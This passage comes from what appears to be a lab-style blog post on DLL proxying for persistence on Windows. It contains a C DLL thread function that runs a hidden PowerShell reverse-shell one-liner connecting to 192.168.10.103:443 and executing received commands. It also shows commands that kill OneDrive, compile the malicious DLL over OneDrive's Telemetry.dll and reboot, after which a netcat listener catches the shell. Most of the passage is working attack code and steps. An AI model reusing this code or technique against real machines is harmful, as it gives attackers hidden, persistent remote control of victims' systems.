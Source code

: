I'll run [this popular powershell oneliner](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3) to get a connection on my linux box (ip: `192.168.10.103` port:`443`).

```c
#include <windows.h>
#include <stdlib.h> // for the system(...) call
// ...
DWORD WINAPI ThreadFunc(void* data) {
    system("powershell -nop -WindowStyle hidden -c \"$client = New-Object System.Net.Sockets.TCPClient('192.168.10.103',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()\"");
    return 0;
}
// ...
```

Next, I'll recompile the dll and restart the box.

<div class="language-plaintext highlighter-rouge">
<div class="highlight">
<pre class="highlight">
<code>c:\Users\IEUser\dllp><span class="ow">taskkill /IM "OneDrive.exe" /F</span>
SUCCESS: The process "OneDrive.exe" with PID 3232 has been terminated.

c:\Users\IEUser\dllp><span class="ow">cl dll.c /link /dll /out:C:\Users\IEUser\AppData\Local\Microsoft\OneDrive\Telemetry.dll</span>
Microsoft (R) C/C++ Optimizing Compiler Version 19.33.31630 for x64
Copyright (C) Microsoft Corporation.  All rights reserved.
...

c:\Users\IEUser\dllp><span class="ow">shutdown /r /t 0</span>
</code></pre></div></div>


On my linux box I start a netcat lister on port 443 and log in to the windows box. After a while I get a connection.

![Powershell rev shell]({{ "/assets/dll_proxying_revshell.png" | relative_url }})

# More Resources
- [Red Teaming Experiments note on DLL Proxying](https://www.ired.team/offensive-security/persistence/dll-proxying-for-persistence)
- [Cihan Solbudak's blog post](https://cihansol.com/blog/index.php/2021/09/14/windows-dll-proxying-hijacking/)
